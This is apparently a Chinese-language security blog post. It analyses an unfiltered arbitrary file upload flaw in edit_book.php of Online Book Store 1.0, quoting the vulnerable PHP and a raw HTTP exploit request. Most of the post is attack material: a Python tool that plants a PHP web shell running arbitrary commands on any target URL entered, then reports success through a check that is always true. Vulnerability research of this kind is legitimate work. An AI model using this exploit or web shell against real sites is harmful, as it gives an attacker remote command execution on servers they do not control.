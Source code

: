 ```yaml
---
title: online-book-Getshell
published: true
---
```

# [](#header-1)零.前言:
本篇文章将会写 Online Book Store 1.0 的前台任意文件上传漏洞分析,复现,及工具的编写!
小弟第一次接触代码审计，请大家见谅!
Online Book Store 1.0 是国外某书城cms.
# [](#header-1)一.漏洞分析:
首先咱们用 **Seay源代码审计工具** 对程序进行自动审计!

![](https://m4tir.github.io/assets/Online/1.png)

发现/edit_book.php这个文件可能存在文件上传漏洞

```php
<?php	
	// if save change happen
	if(!isset($_POST['save_change'])){
		echo "Something wrong!";
		exit;
	}

	$isbn = trim($_POST['isbn']);
	$title = trim($_POST['title']);
	$author = trim($_POST['author']);
	$descr = trim($_POST['descr']);
	$price = floatval(trim($_POST['price']));
	$publisher = trim($_POST['publisher']);

	if(isset($_FILES['image']) && $_FILES['image']['name'] != ""){ //未过滤的文件上传
		$image = $_FILES['image']['name'];
		$directory_self = str_replace(basename($_SERVER['PHP_SELF']), '', $_SERVER['PHP_SELF']);
		$uploadDirectory = $_SERVER['DOCUMENT_ROOT'] . $directory_self . "bootstrap/img/";
		$uploadDirectory .= $image;
		move_uploaded_file($_FILES['image']['tmp_name'], $uploadDirectory);
	}

```

发现里边存在未过滤的文件上传点

只需要对文件post传参,传入**isbn,author,save_change**这三个参数即可进行上传!

其中**isbn和author**两个参数能自定义,**save_change**这个参数固定值:**Change**

# [](#header-1)二.漏洞复现:

![](https://m4tir.github.io/assets/Online/2.png)

![](https://m4tir.github.io/assets/Online/3.png)

exp:

```html
POST /online-book/edit_book.php HTTP/1.1
Host: 192.168.1.2
Proxy-Connection: keep-alive
Content-Length: 521
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary="I am lonely"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

--I am lonely
Content-Disposition: form-data; name="isbn"

978-1-49192-706-9
--I am lonely
Content-Disposition: form-data; name="author"

mstir
--I am lonely
Content-Disposition: form-data; name="image"; filename="test.php"
Content-Type: application/octet-stream

<?phpinfo();?>
--I am lonely
Content-Disposition: form-data; name="save_change"

Change
--I am lonely--
```

# [](#header-1)三.工具编写:

```python
# -*- coding: utf-8 -*-
import requests

#上传shell
print('\b')
url = input("请输入目标网址:")
requrl = url + '/edit_book.php'#任意文件上传的地址
backdoor_file = {
    "image": (
        "mstir.php",
        '<?php system($_GET["cmd"]); ?>',
        "Content-Type: application/octet-stream",
    )
}#文件上传的数据
backdoor_data = {
	"isbn": "978-1-49192-706-9","author":"mstir","save_change":"Change",
}#文件上传所需的参数,其中isbn和author两个量都是自己随便取的
print (' ____          __  __     _   _')
print ('| __ ) _   _  |  \/  |___| |_(_)_ __')
print ("|  _ \| | | | | |\/| / __| __| | '__|")
print ("| |_) | |_| | | |  | \__ \ |_| | |")
print ("|____/ \__, | |_|  |_|___/\__|_|_|")
print ("       |___/")
Getbao = requests.post(
     url=requrl, files=backdoor_file,data=backdoor_data
)#进行post发包上传文件

#验证shell
shell_url = url + "/bootstrap/img/" + "mstir.php"
Verification = requests.get(url=shell_url)
shell_code = Verification.status_code
print ("shell_code:",shell_code)#验证打印出shell状态码
if {shell_code == "200"}:#判断shell是否成功上传
	print ("Getshell成功! Shell:" + url + "/bootstrap/img/mstir.php")
else:
	print ("Getsehll失败!")
```

![](https://m4tir.github.io/assets/Online/4.png) 
